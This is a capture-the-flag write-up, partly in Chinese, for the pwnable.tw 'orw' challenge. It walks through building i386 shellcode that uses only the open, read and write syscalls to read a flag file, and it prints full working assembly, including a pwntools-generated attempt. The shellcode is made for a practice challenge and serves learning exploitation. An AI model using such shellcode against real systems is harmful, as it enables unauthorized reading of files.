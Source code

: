 # orw

> Challenge link: [orw](https://pwnable.tw/challenge/#2)
>
> Category: pwn
>
> Writeup: [orw](https://github.com/frozenkp/CTF/tree/master/others/pwnable.tw/orw)

Read the flag from `/home/orw/flag`.

Only `open` `read` `write` syscall are allowed to use.

`nc chall.pwnable.tw 10001`

[orw](https://pwnable.tw/static/chall/orw)

## Observation

這題題意很簡單，就是輸入 shellcode，它會幫你執行

題目敘述中有說只能使用 `open` `read` `write`，且 flag 在 `/home/orw/flag` ，所以步驟如下

- open('/home/orw/flag')
- read to buffer
- write to stdout

![](https://i.imgur.com/x1eEwmd.png)

## Try

我一開始試著使用 pwntool 中內建的[工具](http://docs.pwntools.com/en/stable/shellcraft/i386.html)，但無法成功讀出檔案

```python
>>> print shellcraft.i386.linux.cat('/home/orw/flag')
    /* push '/home/orw/flag\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016660
    push 0x6c662f77
    push 0x726f2f65
    push 0x6d6f682f
    /* open(file='esp', oflag='O_RDONLY', mode=0) */
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    /* call open() */
    push SYS_open /* 5 */
    pop eax
    int 0x80
    /* sendfile(out_fd=1, in_fd='eax', offset=0, count=2147483647) */
    push 1
    pop ebx
    mov ecx, eax
    xor edx, edx
    push 0x7fffffff
    pop esi
    /* call sendfile() */
    xor eax, eax
    mov al, 0xbb
    int 0x80
```

## Solution

最後我選擇參考 [x86 syscall](https://syscalls.kernelgrok.com/) 逐步構造出 `open` `read` `write` 

- `open(file='esp', oflag='O_RDONLY', mode=0)`
  - 這個我採用 pwntool 輸出的寫法
- `read(fd, buf, length)`
  - `eax` 是 0x3
  - `fd` 存在 `open()` 的回傳結果 (`eax`)
  - `buf` 選在 `esp`
  - `length` 是 60
- `write(stdout, buf, length)`
  - `eax` 是 0x4
  - `stdout` 是 1
  - `buf` 是剛剛讀取的 `esp`
  - `length` 是 60

```assembly
/* push '/home/orw/flag\x00' */
        push 0x1010101
        xor dword ptr [esp], 0x1016660
        push 0x6c662f77
        push 0x726f2f65
        push 0x6d6f682f
/* open(file='esp', oflag='O_RDONLY', mode=0) */
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
/* call open() */
        push SYS_open /* 5 */
        pop eax
        int 0x80
/*call read()*/
        push eax
        push 0x3
        pop eax
        pop ebx
        push 60
        pop edx
        mov ecx, esp
        int 0x80
/*call write()*/
        push 0x4
        pop eax
        push 0x1
        pop ebx
        push 60
        pop edx
        mov ecx, esp
        int 0x80
```

